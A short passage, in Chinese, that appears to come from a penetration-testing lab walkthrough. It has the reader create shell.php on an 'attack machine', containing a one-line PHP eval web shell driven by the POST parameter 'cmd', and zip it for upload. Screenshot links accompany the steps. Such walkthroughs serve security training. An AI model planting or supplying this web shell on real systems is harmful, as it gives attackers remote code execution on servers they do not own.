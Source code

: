 在`Win10攻击机`桌面新建`shell.php`文件，内容为`<?php @eval($_POST['cmd']);?>`：

![image-20220616112522712500-1655884116492521.png](img/Untitled.assets/36cca40f3d48fb792950a0c7b951b921.png)

将`shell.php`文件压缩为`shell.zip`文件：

![image-20220616112617592766-1655884117797902.png](img/Untitled.assets/a4606e02a2db4a31fe6f7e9670efbe73.png)
